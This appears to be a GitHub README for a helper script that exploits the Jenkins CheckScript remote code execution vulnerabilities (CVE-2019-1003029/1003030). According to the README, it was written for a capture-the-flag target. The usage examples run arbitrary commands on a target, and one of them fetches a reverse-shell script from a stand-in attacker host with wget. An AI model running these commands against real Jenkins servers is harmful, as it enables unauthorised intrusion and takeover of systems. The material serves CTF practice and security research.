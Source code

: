 Jenkins Checkscript RCE Helper
==============================


## Purpose

This little helper script was written because I got tired of copy/pasting commands into really long curl statements endlessly during my initial analysis of a CTF Jenkins target.

The official vulnerabilities for this exploitation:

* CheckScript RCE in Jenkins - CVE-2019-1003029, CVE-2019-1003030

_Features:_

* Automatically retrieve a current Jenkins-Crumb and use it in command execution requests
* Run commands with debugging functionality already enabled. In my case, there was no output returned without it.
* No more copy/pasting into curl!


Keep in mind, this only gets you foothold on the box as the user running the Jenkins service, it doesn't guarantee root. So, you'll still need to privesc once you are on.


## Setup

```bash
git clone https://github.com/Cashiuus/jenkins-checkscript-rce
cd jenkins-checkscript-rce
pip install -r requirements.txt
```


## Usage



```bash
./jenkins-checkscript-poc.py <URL> -c <arbitrary_command>

./jenkins-checkscript-poc.py "http://target:8080" -c id
./jenkins-checkscript-poc.py "http://target:8080" -c pwd
./jenkins-checkscript-poc.py "http://target:8080" -c wget http://attacker/revshell.sh -O revshell.sh
./jenkins-checkscript-poc.py "http://target:8080" -c ls -al /home/

```


## Credit

    * Much thanks for the incredible collection of background research: https://github.com/gquere/pwn_jenkins

    * Jenkins Advisory: https://www.jenkins.io/security/advisory/2019-03-06/
